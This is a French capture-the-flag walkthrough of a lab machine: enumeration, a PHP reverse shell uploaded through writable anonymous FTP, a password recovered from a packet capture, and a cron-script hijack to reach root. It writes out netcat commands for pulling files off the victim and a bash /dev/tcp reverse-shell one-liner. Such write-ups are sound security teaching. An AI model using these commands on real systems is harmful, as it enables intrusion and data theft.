Comme d'habitude commençons par:
1) Énumération
Comme vous pouvez voir nous avons 3 ports ouverts sur cette machine. le port par défaut du FTP (port 21), le port par défaut du service ssh (le port 22 pour celui là) et le port 80 qui signifie que un site web tourne cette machine. Maintenant checkons ce que nous offre ses ports
Le port 21
Comme nous pouvions remarquer sur le scan nmap ci-dessus nous pouvons nous connecter en anonymous au ftp et en plus que nous pouvons écrire dans le dossier ftp gardons ça au fin fond de notre mémoire. alors en se connectant, nous avons plusieurs fichiers, après vérification ses fichiers nous donnent rien d'intérrésant pour le moment (à part le dossier ftp avec les droits d'écriture bien évidemment on oublie pas ce détail) passons alors au site web
Le port 80
Bon c'est pas pour juger vos talents d'observateur mais vous pouvez remarquer que le site est un peu vide peut-être que il y a un dossier qui peut être intérrésant utilisant donc notre outil préféré pour le fuzzing de directory aka ffuf
files/ mon instinct me dis que c'est pas par défaut ça checkons ça

Dossier FTP avec un fichier appelé notice.txt cela me rappelle le ftp mais attendez sachant que on a les droits d'écriture dans le dossier ftp/ je dois check un truc je reviens
j'ai foutu mon fichier de scan nmap dans le dossier FTP pour voir si il apparaît dans le dossier ftp sur le site web et résultat comme vous pouvez voir c'est aussi upload sur le site. Cela me donne une idée maléfique
2) Exploitation
Mon idée maléfique consiste à mettre un reverse-shell en php présent Ici dans le dossier FTP afin qu'on puisse le lancer sur le site web
Mes mots me manquent pour dire que j'ai une joie intérieure explosive en voyant ça, alors checkons les moyens de privesc car c'est bon d'avoir un shell mais avoir un user et avoir aussi un shell root c'est cool parfois
3) Privesc
après avoir executé linpeas nous avons pu remarquer 2 chose qui devrait pas dans le dossier racine / de type un fichier recipe.txt et un dossier nommé incidents
(le fichier recipe.txt est le fichier pour répondre à la premiere question de la room) mais dans le dossier incidents nous avons une capture réseau
Mais cela est un peu compliqué car nous sommes pas en ssh donc pas de scp alors je vous donnes un petit tips pour résoudre ce problème
Alors pour cela il nous faut
- Un netcat tout droit sortie du terroir
ce que vous devez faire c'est
Sur votre machine:
nc -lvp "votre port que vous voulez ouvrir" > "votre fichier de sortie>
Sur la machine victime:
nc "votre ip" "votre port ouvert" < "le fichier que vous voulez télécharger"
comme ceci
Bingo maintenant analysons la capture réseau qu'on a fraîchement installer.
Bon alors mon instinct me dit que en analysant les requêtes http ceci est une capture réseau établie lors d'une attaque similaire à la nôtre donc pour voir ce que la personne a tapé dans son shell pour ça nous devons voir les datas des requetes TCP pour ça vous devez clique droit sur un packet TCP suivant la requete HTTP-GET et vous cliquez sur Follow -> TCP stream
D'après mon intuition de détective hors-pair la personne a essayé d'accéder au dossier d'un user nommé lennie mais malheureusement il a pas les droits pour ça alors il essaye de voir quel droit il peut executer avec sudo mais sans succès. Mais attendez, il a essayé d'utiliser comme mot de passe [sudo] password for www-data: CENSURED
Nous avons le nom d'un user et nous avons un mot de passe donc au fourneau
Nous nous sommes connectés en tant que lennie par ssh maintenant checkons ce qu'il pourrait être intérrésant
Nous avons un dossier nommé scripts/. Allons dans ce dossier de pied ferme
je suspectes un cron qui éxecute ce script mais malheureusement nous n'avons pas les droits d'écriture sur ce fichier
Mais attendez il y a un autre script éxecuté depuis ce script appelé print.sh se trouvant dans le dossier /etc/ et bingo nous avons les droits d'écriture sur ce fichier là. Remplaçons le code contenue dans ce fichier par bash -i >& /dev/tcp/"IP"/"PORT" 0>&1
Et maintenant attendont si mon hypothèse fonctionne
ET LET'S GO NOUS SOMMES ROOT POUR FÊTER ÇA PIZZA
Bon sérieusement merci les gens d'avoir lu mon article et n'hésitez pas à me donner quelque feedback